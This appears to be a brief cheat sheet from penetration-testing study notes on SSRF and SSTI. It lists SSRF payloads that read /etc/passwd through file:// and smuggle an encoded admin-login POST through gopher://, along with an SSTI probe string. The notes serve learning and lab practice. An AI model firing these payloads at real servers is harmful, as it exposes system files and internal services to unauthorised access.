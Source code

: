 ﻿### **SSRF (Server-Side Request Forgery)**

#### Exploitation

|Technique|Description|
|---|---|
|Internal Portscan|Accessing ports on localhost|
|Accessing Restricted Endpoints|Interacting with internal services|

#### Protocols

| Protocol | Example |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `http://` | `http://127.0.0.1/` |
| `file://` | `file:///etc/passwd` |
| `gopher://` | `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` |


### **SSTI (Server-Side Template Injection)**

| Category | Example |
| ------------ | ----------------------------------------------- |
| Exploitation | Templating Engines dynamically generate content |
| Test String | `${{<%[%'"}}%\.` |
